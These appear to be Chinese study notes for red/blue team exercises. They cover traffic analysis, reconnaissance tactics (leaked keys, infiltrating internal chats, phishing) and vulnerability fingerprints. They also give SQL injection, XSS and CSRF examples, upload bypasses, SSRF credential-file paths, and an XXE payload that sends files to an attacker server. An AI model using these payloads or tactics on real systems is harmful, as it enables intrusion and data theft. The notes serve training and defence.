


# HVV护网专题

## 流量分析技巧

```
下面的图就是态势感知收集的流量，检测出告警类型是sql注入。
```

	

```
点击告警，里面会显示具体的流量，其中很明显包含updatexml是报错盲注。
通过响应头可以判断，并没有注入成功。
```

	

```
wireshark主要分为三部分。
```

	

```
分组主要分为5层,最底下的是HTTP应用层的数据信息。
```

	

```
wireshark的工具栏可以都了解一下。
```

	

```
分析的功能非常重要，其中应用为列和追踪流尤其重要
其中的追踪流可以仔细查看一个分组的请求头数据和响应包数据。
其中应用为列，可以把数据包的某个信息添加为列，在wireshark中显示出来，比如说TTL等等。
```

	

```
统计的重点就是协议分级和会话，其中协议分级会根据所有捕获分组，统计协议的占比数量
会话可以查看所有的会话，每一个会话都相当于一个三次握手和四次挥手的会话。可以查看的数据发送走向。
```

	

	

```
这里面每一个都是会话。
```

	

```
wireshark的使用技巧
过滤选项一般遵循如下的原则，协议名.字段名 比较符号 值
比如：
tcp.dstport == 80 // 只显tcp协议的目 标端口80
tcp.srcport == 80 // 只显tcp协议的来 源端口80
tcp.port >= 1 过滤端口大于一
```

```
当对某个字段想进行过滤，但不知道怎么写表达式，可以右键点击作为过滤器应用，点击选中，这样表达式就会自动写入到过滤器中。
```

	

```
当存在script等关键字，说明就是xss注入，我们可以通过响应包，和查看响应包的源代码是或否有这个js注入的代码来判断是否有攻击成功。
```

	

```
sql注入的关键字。
```

	

```
看到有操作系统的命令，很明显是RCE漏洞。
```

	

```
通过关键字可以发现是上传php的图片马
```

	

## 护网常见打点方式

```
信息收集：
1.绕开CDN找到所有靶标的真实ip
2.找到所有目标真实的C段
3.对所有的C段进行基础服务器的探测，端口的扫描，识别
4.对所有目标的子域名进行收集
5.对所有子域名的基础服务 端口进行识别和探测
6.对所有的web服务站点进行 指纹的探测
7.找到web管理的后台
8.git上找目标的各类泄露的信息，账号密码，敏感文件，有时候运气好，
会找到泄露的云key（等于发财）
9.从网盘，百度文库，找敏感，账号密码
10.找设备，CMS OA的默认账号密码
11.对web目标进行目录扫描（开代理）
12.对.svn .git的项目进行源码的还原
13.对网站前端进行源码探测收集敏感信息
14.（学校）收集学号 员工号 目标邮箱（生成社工字典）
15.对一些企业 技术文档 wiki 尝试查找测试账号
16.对目标公众号 小程序 进行流量收集
17.想办法混入内部群 QQ群 微信
18.识别目标所用的waf（不同的waf有不同的bypass方法）
========================================
漏洞利用：
后台弱口令（默认口令）
SQL注入
SSRF（请看SSRF那节课）
命令执行
代码执行
反系列化
文件上传
任意文件下载
近源
钓鱼
=============================
软柿子：
学校(学生)，医院（老头），非互联网 非金融的制造业（工人）
硬茬：
银行  保险公司  电力  烟草   大数据中心
1.0day
2.供应链攻击（房地产公司-》建材公司-》水泥公司，钢筋公司）
xx数据-》xx局（钓鱼-运维人员）
========================================
1.对漏洞的理解（知道漏洞原理，知道对方可能在哪些地方做了防御，加固）
2.思维的开阔（见识少了）
3.编程基础，nmap（流量特征很明显，几乎所有的流量设备都能识别）
nmap的流量特征（扫描的时候流量里面会带有明显nmap字样）
提升：
1.漏洞理解，不要用工具，注入用手注 XSS用手挖，杜绝一切扫描器。
2.思维，（多学习别人挖洞经验，护网经验，多动手，虚心像大佬们请教）
3.学习一门编程语言（python，go） 自己动手写个工具，结合你对漏洞的理解
======================================================
可以根据以下系列使用hw专题提供的工具去利用攻击。
1.shiro系列
漏洞指纹：
set-Cookie: rememberMe=deleteMe
2.struts2
漏洞指纹：
Struts
.action
.do
.action!xxxx
3.Fastjson
漏洞指纹：
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
4.Xstream 反序列化
漏洞指纹：
xml
xml 不仅可以xxe, 还能反序列化代码执行

5.泛微OA Bsh远程代码执行
漏洞指纹：
Set-Cookie: ecology_JSessionId=
ecology
WorkflowCenterTreeData
/mobile/plugin/SyncUserInfo.jsp

通达OA 远程代码执行
漏洞指纹：
"/images/tongda.ico">
Office Anywhere 20xx版 网络智能办公系统
/ispirit/interface/gateway.php

通达OA SQL注入
漏洞指纹
"/images/tongda.ico">
Office Anywhere 20xx版 网络智能办公系统
/ispirit/interface/gateway.php

致远OA A8 htmlofficeservlet getshell 漏洞
漏洞指纹：
/seeyon/htmlofficeservlet
/seeyon/index.jsp
seeyon

致远OA 帆软报表 seeyonreport 远程代码执行
漏洞指纹：
https://seeyoon.com/seeyonreport/ReportServer?op=fs_load&cmd=fs_signin&_=1560911828892
seeyonreport

Smasti 前台SQL注入
漏洞指纹：
SmartBi
smartbi/WEB-INF/lib/smartbi-BIConfig.jar!/smartbi/config/BIConfigService.class

深信服VPN远程代码执行
漏洞指纹：
Set-Cookie: TWFID=
welcome to ssl vpn

深信服VPN的口令爆破
漏洞指纹：
/por/login_auth.csp?apiversion=1
sangfor
/cgi-bin/login.cgi?rnd=

Fortigate SSL VPN 文件读取/远程代码执行
漏洞指纹：
Fortigate 
4tinet2095866

Pulse Secure SSL VPN远程代码执行漏洞
漏洞指纹：
Pulse Secure

Palo Alto GlobalProtect VPN远程代码执行漏洞
漏洞指纹
GlobalProtect Portal

Citrix Gateway/ADC 远程代码执行漏洞
漏洞指纹：
Citrix Gateway
Citrix Gateway/XSA

Thinkphp
漏洞指纹：
Thinkphp

Spring系列
漏洞指纹：
X-Application-Context:
"Spring-Framework"

Phpstudy 后门远程代码
漏洞指纹：
phpStudy 探针

Solr系列漏洞
漏洞指纹:
Solr

Tomcat系列
漏洞指纹：
tomcat
8009
ajp
\x04\x01\xf4\x00\x15

PHP-fpm 远程代码执行
漏洞指纹
Nginx
PHP
nextcloud

Confluence Wiki 远程代码执行
漏洞指纹：
Confluence 

JBoss系列
漏洞指纹
Jboss
JBoss

Websphere 反序列化远程代码执行
漏洞指纹：
WebSphere
8880

Jenkins 系列漏洞
漏洞指纹：
Jenkins

weblog T3
漏洞指纹：
weblogic 
7001
Lcom.tangosol.util.extractor

redis
漏洞指纹：
6379

宝塔
漏洞指纹：
888/pma
```

## web安全基础

### sql注入补充

```
这个是万能密码的一种注入攻击
1′ or 1=1 or ‘1’=’1
比如说原先后端的sql语句是这样的
SELECT * FROM admin WHERE Username= '".$username."' AND Password='".md5($password)."'
经过注入后是这么一个语句，由于or的短路原则，当左边为true就不会看右边的执行运算过程，导致可以实现任意登录。
SELECT * FROM admin WHERE Username='1' OR 1=1 OR '1'='1' AND Password='EDFKGMZDFSDFDSFRRQWERRFGGG'

可以举个简单例子来理解，比如or当中只要有一个为true,那么后面的and无论是否正确都已经无所谓了，就默认是正确的。
```

	

```
重点注意:判断有没有注入点可以通过以下方法。
and 1=1和and 1=2来查看是否网页回显的内容不一样，如果没有回显，可以去bp抓包查看响应包的内容长度是否有发生变化，如果有变化说明有注入点。如果还是没有变化的话，那可能是完全无回显，那可以试试dnslog来结合有没有注入点。
```

```
二、sql查询

除了查看数据库   还有会使用到的其他函数:

1、user()查当前的用户为：user() =>select user();

2、 Version()；当前 mysql 的版本

union select 1，2，version()

3、 Database();当前网站使用的数据库

union select 1，2，database()

4、 User();当前 MySQL 的用户

union select 1，2，user()

5、 system_user(); 系统用户名

6、session_user();连接数据库的用户名

7、current_user;当前用户名

8、load_file();读取本地文件

9、@@datadir：读取数据库路径

10、@@basedir：mysql安装路径

9、length(str) : 返回给定字符串的长度，如 length(“string”)=6

10、substr(string,start,length) : 对于给定字符串string，从start位开始截取，截取length长度 ,如 substr(“chinese”,3,2)=“in”

substr()、stbstring()、mid() 三个函数的用法、功能均一致

11、concat(username)：将查询到的username连在一起，默认用逗号分隔

concat(str1,’’,str2)：将字符串str1和str2的数据查询到一起，中间用连接

12、group_concat(username) ：将username数据查询在一起，用逗号连接

Columns 表存储该用户创建的所有数据库的库名、表名、字段名，要记住该表中记录数据库库名、表名、字段名为 table_schema、table_name、columns_name
```

```
### sqlmap基本语法

**扫描语法**

1、-u  指定目标url

2、-m url_list.txt # 使用一个包含多个url的文件进行扫描。

3、-r request.txt # Post提交方式，使用HTTP请求文件，该文件可从BurpSuit中导出。 （BurpSuit抓包-->将请求复制到txt中即可）

4、-p "username,id" # 指定要扫描的参数

5、--proxy="http://127.0.0.1:8087/" # 使用代理去扫描目标

6、--force-ssl # 使用HTTPS连接进行扫描

7、--delay="3" # 每次http请求之间的延迟时间，默认无延迟

8、--timeout="10" # 请求超时时间，浮点数，默认为30秒

9、--level

10、--risk 默认1，最高4，等级高容易造成数据被篡改风险

11、--threads=7 #提高并发线程，默认为1，建议不要超过10，否则影响站点可用性

12、--dbms="Mysql" # 指定数据库类型，还可以加上版本 Mysql

13、--os="Windows" # 指定操作系统，还可以是Linux

**查询语法**

1. --users # 查询所有的数据库账号

2. --dbs # 查询所有数据库

3. --schema # 查询源数据库（包含定义数据的数据）

4. -a # 查询当前user、当前数据库、主机名、当前user是否是最大权限管理员、数据库账号等

5. -D dvwa# 指定数据库

   命令：sqlmap -u http://172.23.188.13：8083/show.php?id=3 -D dvwa --tables

   -T 是查看某个数据表

   --columns 查看的表中的所有字段

   命令：sqlmap -u http://172.23.188.13：8083/show.php?id=3 -D dvwa -T users --columns

   --dump 查看所有字段的内容

   

6. --current-user # 查询当前数据库用户

7. --current-db # 查询当前数据库

8. --hostname # 查看服务器的主机名

9. --columns # 查看所有的字段

10. --tables # 查看所有的表
```

```
检测注入点还有这几个地方可注意
检测cookie中是否含有注入
检测user-agent、referer是否含有注入
检测host是否含有注入
```

### RCE漏洞补充

```
黑盒测试只能通过前端判断一些关键的参数名
exec=?、command=?、execute?、ping=?、include=?、exclude=?、jump=?、code=?、reg=?、do=?、func=?、arg=?、option=?、load=?、process=?、step=?、read=?、function=?、req=?、feature=?、exe=?、module=?、payload=?、run=?、print=?
```

```
白盒测试通过代码角度的话可以查看一些存在命令执行的函数。
相关函数
PHP
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、eval()……
Java
Runtime.getRuntime().exec()…… 
Python
os.system()、os.popen()、subprocess.call()、os.spawn()……
```

```
防御思路
1、从入口（HTTP流量）防御（自研）
2、产品升级（开源、采购或者使用第三方组件）
3、白名单（命令、IP）
4、安全产品
5、编码、配置角度
```

```
常见绕过思路
等价函数
大小写绕过
双写绕过
编码绕过
特殊字符绕过
……
具体的可以参考这篇文章，查看绕过思路
https://blog.csdn.net/qq_41315957/article/details/118855865
```

### XSS漏洞补充

```
DOM语法本质上使得js代码通过一些函数修改html的结构中的一些内容。比如说按钮，当点击按钮使得h1标签的内容发生变化，这就是DOM的语法操作。
```

	

```
进入pikachu靶场查看DOM型xss的源码，发现我们输入的str参数，在a标签里面，那么由于有单引号和双引号，所以需要进行闭合操作。
```

	

```
根据源代码写出payload，发送即可触发xss注入。
'"><'"
```

	

### CSRF漏洞补充

```
比如一个用户登录了pikachu平台。用户信息如下所示
```

	

```
此时黑客也在pikachu也拥有账号。于是修改个人信息处可以抓包进行修改测试。
```

	

```
提交进行抓包。
```

	

```
右键空白处，点击Engagement tools中的generate csrf poc
```

	

```
复制里面的poc代码。
```

	

```
将poc粘贴到准备的展示的美女网页当中。
```

	

```
当点击了这个黄色网站的按钮，就会触发漏洞执行，就会伪造当前用户去修改个人信息，因为本身携带cookie，所以是可以修改成功的。
```

	

```
于是信息全部被修改了。
```

	

```
post也是一个道理，继续使用这个kobe用户进行攻击。
```

	

```
首先黑客使用自己的用户去点击修改个人信息，去生成该网站的特定poc，开始抓包
```

	

```
右键空白处，点击Engagement tools中的generate csrf poc，并指复制其中的poc。
```

	

```
将代码粘贴到这个黄色网站当中。
```

	

	

```
于是内容就会被修改。
```

	

#### 防御手段

```
增加token进行验证。
增加referer字段。
增加http头部验证字段。
```

### 文件上传漏洞补充

```
信息收集：面更广
1、中间件

iis  5.x  6.x
1、格式上的解析，比如等价后缀名。
.asp   .php
.asa  .cer .asax   -->当成asp执行

2、分号解析，使得;后面不会被解析，而解析1.asp
1.asp;.jpg
注意：重名没办法使用
20233142308.jpg

3、目录解析
创建目录的时候,目录命名成一个a.asp，然后里面包含以下普通文件，但是普通文件可以写一句话木马，如果目录被解析则可以getshell
1.txt   
2.png

iis 7.0以上
1、url的普通文件后面加上/.php，可以解析php代码。
2、找上传点，图片码

二、找上传点
字典爆破
会员中心   头像资料   评论    反馈  。。。

没有解析漏洞
黑名单--后缀名
1、大小写  php  .PhP  .JSP
2、空格
3、点
php.等价于.php
4、双写法
5、::$DATA

白名单
1、%00截断
1.php%00.jpg
目录
upload/1.php%00
```

### SSRF漏洞补充

```
SSRF漏洞利用
SSRF可能存在漏洞的地方。
1.分享
2.转码
3.在线翻译
4.图片加载、下载
5.图片、文章收藏
6.未公开的API

SSRF漏洞常用的URL关键字参数：
share、wap、url、link、src、source、target、u、3g、dispaly、sourceURL、imageURL、domain

内网探测：
C类：192.168.0.0-192.168.255.255
B类：172.16.0.0-172.31.255.255
A类：10.0.0.0-10.255.255.255

常见端口：
http 80
https 443
telnet 23
ftp 21
ssh 22
smtp 25
weblogic：
7001
tomcat：
8080
jboss：
8080
oralce：
1521
sqlserver：
1443

SSRF可以试试的协议：
ftp
dict
gopher
file
ladp
ssh
smb
http
https

file协议敏感文件读取：
winodws下：
C:\Windows\system.ini
C:\windows\system32\drivers\etc\hosts
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息

Linux下：
/root/.ssh/authorized_keys //如需登录到远程主机，需要到.ssh目录下，新建authorized_keys文件，并将id_rsa.pub内容复制进去
/root/.ssh/id_rsa //ssh私钥,ssh公钥是id_rsa.pub
/root/.ssh/id_ras.keystore //记录每个访问计算机用户的公钥
/root/.ssh/known_hosts
//ssh会把每个访问过计算机的公钥(public key)都记录在~/.ssh/known_hosts。当下次访问相同计算机时，OpenSSH会核对公钥。如果公钥不同，OpenSSH会发出警告， 避免你受到DNS Hijack之类的攻击。
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/redhat-release 系统版本 
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/var/lib/mlocate/mlocate.db //全文件路径
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/porc/self/cmdline //当前进程的cmdline参数
/proc/sched_debug 配置文件可以看到当前运行的进程并可以获得对应进程的pid
/proc/pid/cmdline   则可以看到对应pid进程的完整命令行。
/proc/net/fib_trie   内网IP
/proc/self/environ   环境变量
/proc/self/loginuid   当前用户
```

### XXE漏洞补充

```
登录抓包。
```

	

```
使用外部实体引用的payload可以获取敏感数据。
<?xml version="1.0"?>
<!DOCTYPE a[
<!ENTITY  file SYSTEM "file:///c:/Windows/system.ini">
]>
```

	

```
假设将回显注释掉，那么就算有xxe漏洞也无法回显，那么就无法判断是否有漏洞。
```

	

```
所以可以利用xxe漏洞把敏感数据发送到自己搭建好的网站上。通过自己的网站把内容导出来。
```

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY  % file SYSTEM "file:///c:/Windows/system.ini">
<!ENTITY  % remote SYSTEM "http://127.0.0.1/fuzhu/remote.dtd">
%remote;
%all;
]>
```

	

```
于是攻击机收到了xxe无回显的数据。
```

	

```
这是remote.dtd的源码，主要是把%file的数据，即敏感文件的数据发送到这个攻击机提供的网站下。
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.15.115/fuzhu/get.php?file=%file;'>">
```

```
get.php攻击机网站也很简单，源码如下，即把收到get请求的数据，写入到文件当中。
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

```
以下是XXE的一些相关知识。
XML主要两个用途：
1.配置文件：层级分明 结构清晰 
2.在不同的系统之间交换数据

<?xml version="1.0" encoding="ISO-8859-1"?> //第一行为xml的声明，定义了xml的版本和使用的编码
<note>     //文档的根元素，下面四行为根元素下的四个子元素
  <to>大黄</to>
  <from>大壮</from>
  <heading>村头集合</heading>
  <body>有妹子!</body>
</note>
"阳光，开朗，大男孩"
<person name="阳光" character="开朗" result="大男孩">

<person>
     <name value="阳光" />
     <character value="开朗">
     <result value="大男孩">
</person>

json
{
    “name”:"阳光",
     "chatacter":"开朗"，
      "result": "大男孩"
}
DTD作用：
1.通过DTD，每一个XML文件均可以携带一个自身相关的描述
2.验证数据
3.交换数据

内部实体声明：
<!ENTITY 实体名称"实体的值">
外部的实体声明：
<!ENTITY 实体名称SYSTEM "URI">

带外测试：
1.是不是payload写错了
2.是不是存在这个漏洞
3.有存在但是无回显
4.是否存在这个文件

如果：关闭了回显但是带外测试成功。
远程文件窃取：
1.读本地服务器上的文件
2.远程加载了恶意DTD文件
3.攻击者的服务器 开启 接收内容并写出文件
```

### http状态码补充

	

## 常用安全设备

	

### 态势感知

```
主要是分析安服人员看到这些告警，需要查看里面的请求头数据，看是否确实是攻击流量。
研判还要在此基础上，判断是否有攻击成功。
```

	

```
比如点进去就是这种攻击流量，查看到updatexml是攻击流量，即写入到公司给定的模板并上报。
通过响应包500可以判断攻击失败。
```

	

```
这个是文件上传的漏洞攻击流量。
```

​		

```
这是常见的后门文件攻击流量，比如请求一个jsp文件，并且包含的请求体使得响应体响应出一些系统命令的执行结果，说明被攻击了。
```

	

### 蜜罐

	

	

```
部署蜜罐很简单，将压缩包放入虚拟机，直接双击install文件即可。
```

	

	

```
登录蜜罐。
```

	

```
点击进去，节点管理里面有很多内置的蜜罐，我们可以点击其中一个进行查看。也可以自己在底下进行添加蜜罐服务，设置不同的蜜罐。
```

	

```
比如海康摄像头的蜜罐。
```

	

```
当黑客尝试登录蜜罐，就会留下攻击信息，也可以获得攻击来源的ip。
```

	

### 威胁情报与沙箱

```
威胁情报比如说微步在线网站，可以去查找哪些ip是恶意的，或者说有些文件，我们不确定是不是恶意的，可以去微步跑沙箱查看是否有问题。
```

### 终端防护

	

```
其实终端防护说到底很简单，类似装了一个远程服务器，这个远程服务器可以监控所有电脑，对电脑做防护，查看那些电脑的日志信息、计划任务、和进程访问的相关信息。
比如免费的EDR云锁。
云锁分为服务端、控制端。被监控机安装服务端，监控端安装控制端，即可监控并对多个主机做防护，设置安全策略等等。
```

## 蓝队项目补充

### 蜜罐DecoyMini

```
首先把文件粘贴到虚拟机，然后运行该文件。
```

	

```
分别选择监听端口为7777，使用http协议部署蜜罐。
```

	

```
由于我用自己虚拟机部署会蓝屏，懒得换虚拟机了
在蜜罐里头可以使用模板克隆，克隆甲方的业务虚拟机，然后并部署出去一个假的网站，当黑客攻击会留下它的攻击ip,甚至会留下一些百度的ID信息，从而被溯源真实身份。
```

```
如果觉得项目不够，可以参考蓝队项目中的溯源、应急响应、研判进行编写。
```

```
简历上就可以加上：

熟悉蜜罐配置，成功帮助甲方部署蜜罐
通过蜜罐社交ID，溯源到攻击者。
假设问到为什么蜜罐可以得到社交ID
蜜罐捕获社交ID的方式：
JSONP跨域，（原理）

扫灰黑产：
1，查日志
2，定位灰黑产病毒or木马
3，打包下来，并且计算hash值
4.运行杀毒软件，杀掉
```


